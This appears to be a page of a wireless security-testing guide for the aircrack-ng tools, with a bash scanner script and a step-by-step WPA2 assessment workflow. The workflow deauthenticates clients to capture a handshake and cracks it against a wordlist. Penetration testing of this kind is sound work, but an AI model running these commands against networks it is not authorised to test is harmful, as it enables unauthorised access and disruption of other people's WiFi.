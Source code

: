 ### Network Scanner
```bash
#!/bin/bash
# WiFi network scanner

INTERFACE="wlan0mon"
OUTPUT="network_scan"

echo "Scanning for networks..."
sudo airodump-ng -w $OUTPUT $INTERFACE &
SCAN_PID=$!

# Scan for 30 seconds
sleep 30

# Kill scan
kill $SCAN_PID

# Parse results
echo "Discovered networks:"
grep -E "Station MAC|BSSID" $OUTPUT-01.csv | tail -n +2
```

## Security Testing Workflow

### Complete WPA2 Assessment
```bash
# 1. Setup monitor mode
sudo airmon-ng start wlan0
sudo airmon-ng check kill

# 2. Discover networks
sudo airodump-ng wlan0mon

# 3. Target specific network
sudo airodump-ng -w target_capture -c 6 --bssid 00:11:22:33:44:55 wlan0mon

# 4. Capture handshake
sudo aireplay-ng -0 5 -a 00:11:22:33:44:55 -c AA:BB:CC:DD:EE:FF wlan0mon

# 5. Crack handshake
sudo aircrack-ng -w wordlist.txt target_capture-01.cap

# 6. Clean up
sudo airmon-ng stop wlan0mon
```

## Troubleshooting

### Common Issues
```bash
# Interface not found
# Check if wireless card supports monitor mode
iw list | grep -A 5 "Supported interface modes"

# Monitor mode not working
# Kill conflicting processes
sudo airmon-ng check kill

# No packets captured
# Check channel and BSSID
sudo airodump-ng wlan0mon
```